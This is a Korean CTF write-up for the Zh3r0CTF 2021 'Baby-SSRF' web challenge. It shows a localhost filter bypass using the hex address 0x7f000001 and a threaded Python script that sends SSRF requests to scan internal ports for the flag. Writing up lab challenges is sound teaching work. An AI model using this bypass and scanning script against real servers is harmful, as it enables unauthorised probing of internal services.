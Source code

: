     특정 키워드가 감지되는 경우 `Please dont try to heck me sir...` 괴롭히지 말라는 문구와 
    
    존재하지 않는 URL이나 연결이되지 않는 URL으로 요청하는 경우 `Learn about URL's First` 가 뜨게 됩니다.
    
    ![Untitled%206.png](\post-images\Zh3r0CTF\WEB\2021\Baby-SSRF\Untitled%206.png)

+ ### 문제 풀이

    local로 요청하기 위한 방법은 많이 존재하기 때문에 다양한 방법 중 `0x7f000001(hex)`

    를 이용하여 필터링을 우회할 수 있기 때문에 해당 우회 방법을 사용하면 됩니다.

    FLAG를 얻기 위해 문제 힌트를 참고하면 5000~10000 까지 반복하는 코드를 보여주는것을 볼 수 있는데 힌트대로 FLAG가 들어 있는 PORT로 요청을 하면 됩니다.

    + [SSRF localhost bypass List](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
    <br>

    ```python
    from threading import Thread
    import requests

    URL = 'http://web.zh3r0.cf:1111/request'
    END = False

    def ports(st,en):
        global END
        for port in range(st,en):
            if END:
                return False
            else:
               payloads = 'http://0x7f000001:{}'.format(port)
               r = requests.post(URL, data={'url':payloads, 'sub':'sub'})
               if r.text.find("{&#39;") > -1:
                   print("FLAG Found URL : {0}\n{1}".format(r.url, r.text[r.text.find("zh3r0{"):r.text.find("}")+1]))
                   END = True

    for port in [5000, 6000, 7000, 8000, 9000]:
        t1 = Thread(target=ports, args=(port, port+1000))
        t1.start()

    print('Thread Starting..')
    ```

    ![Untitled%207.png](\post-images\Zh3r0CTF\WEB\2021\Baby-SSRF\Untitled%207.png)

    threading를 이용하여 JSON 형태로 반환이 되는 페이지만 FLAG를 찾아 출력하게 만들면 됩니다.
